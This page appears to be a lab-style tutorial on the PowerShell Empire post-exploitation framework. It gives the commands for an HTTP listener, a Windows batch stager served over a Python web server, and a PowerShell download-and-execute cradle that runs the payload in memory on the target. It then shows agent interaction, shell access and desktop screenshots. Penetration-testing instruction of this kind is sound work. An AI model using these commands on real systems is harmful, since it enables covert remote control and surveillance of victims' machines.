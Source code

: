 # Welcome to Cyber Secure Labs

<a href="./">Home</a> <a href="../filetransfer.md">File Transfers Techniques</a>

## Working with the newest version of Powershell Empire

Public Site for sharing security writes

Write-up by: Cybersec


## Post Exploitation

### Working with Powershell Empire

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

**Windows Platform: `Exploitation and post exploits are performed using Powershell.`**

**Linux & macOS: `Exploitation requires Python 2.6 or 2.7`**

In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below:

```bash
sudo powershell-empire server

```

![Untitled](./Untitled.png)

To start the client, the command is below:

```bash
sudo powershell-empire client

```

![Untitled](./Untitled%201.png)

Use the following command to list all listeners, if any is still running:

Command:

`listners`

![Untitled](./Untitled%202.png)

You can use the following command to kill a active listener:

![Untitled](./Untitled%203.png)

**Command:**

syntax: kill <name of listener>

kill test

kill http

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
uselistener http

set Name http

set Host 192.168.119.208

set Port 4443

execute
```

![Untitled](./Untitled%204.png)

![Untitled](./Untitled%205.png)

Before we setup a stager, we will check to ensure no agents are currently running with the below 

**Command:**

`agents`

![Untitled](./Untitled%206.png)

If an agent was running and you would like to kill it, simply use the command below:

**syntax:** 

`kill <name of the agent>`

### Setting up a stager:

We will set our stager to: `windows/launcher_bat` and set our listener to be `http` just as we have named it when setting up the listener and execute it to start the listener.

```bash
usestager windows/launcher_bat

set Listener http

execute

```

After setting up the stager with the above commands, the follow payload will be exported to your a location on your machine.  In the context of this exercise, we will copy the exported payload and save to a directory and serve it to our target machine via a python web server.

![Untitled](./Untitled%207.png)

We will start a Python web server and transfer the file onto the windows target.

Command: 

`python3 -m http.server 3030`

![Untitled](./Untitled%208.png)

On the windows target machine,we will download the file and execute it without saving it to the target machine local hard-disk with the below power-shell command:

![Untitled](./Untitled%209.png)

```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.208:3030/launcher.bat')
```

After executing the command above and hit enter twice at the command prompt, our script executes and a session is passed back to our powershell empire listening console.

![Untitled](./Untitled%2010.png)

### Setting up a stager:

From the above, we can see that a new agent A26S4CZV checked in

We can use the below command to list all agents

![Untitled](./Untitled%2011.png)

```
agents

```

Interacting with an agent is simple as using the below syntax

interact <agent name>

Example: 

```
interact A26S4CZV

```

![Untitled](./Untitled%2012.png)

### Post Exploitation Commands:

```
info

```

![Untitled](./Untitled%2013.png)

Using the command shell:

Command:

`shell`

![Untitled](./Untitled%2014.png)

### Taking a Screenshot of Target Machine's desktop

```
usemodule powershell/collection/screenshot
execute
```

![Untitled](./Untitled%2015.png)

![Untitled](./Untitled%2016.png)
